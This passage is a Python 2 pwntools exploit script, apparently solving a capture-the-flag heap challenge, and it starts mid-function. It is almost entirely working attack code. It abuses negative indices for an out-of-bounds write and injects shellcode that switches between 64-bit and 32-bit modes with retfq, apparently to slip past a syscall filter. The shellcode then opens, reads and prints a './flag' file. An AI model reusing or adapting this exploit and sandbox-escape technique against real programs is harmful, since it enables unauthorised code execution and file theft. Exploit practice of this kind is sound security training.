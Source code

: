 ````python
	ru(':')
	sl(str(index))
	ru(':')
	s(message)

def show(index):
	choice(2)
	ru(':')
	sl(str(index))

def delete(index):
	choice(3)
	ru(':')
	sl(str(index))
#debug('b*0x0000000000400850\nc')
bss=0x602200	
add(-22,'\xc3')
read='''
xor eax,eax
xor edi,edi
mov rsi,0x01010101
xor rsi,0x1612301
push 0x01010101
pop rdx
syscall
mov rsp,rsi
retfq
'''
print len(asm(read,arch='amd64'))
open_flag='''
mov esp,0x602300
push 0x6761
push 0x6c662f2e
mov eax,5
mov ebx,esp
xor ecx,ecx
int 0x80
'''
read_write='''
push 0x33
push 0x602233
retfq
mov rdi,3
mov rsi,rsp
mov rdx,0x100
xor rax,rax
syscall 

mov rdi,1
mov rax,1
syscall
'''
add(-37,asm(read,arch='amd64'))
delete(0)
s(p64(0x602210)+p64(0x23)+asm(open_flag,arch='i386')+asm(read_write,arch='amd64'))
itr()
````
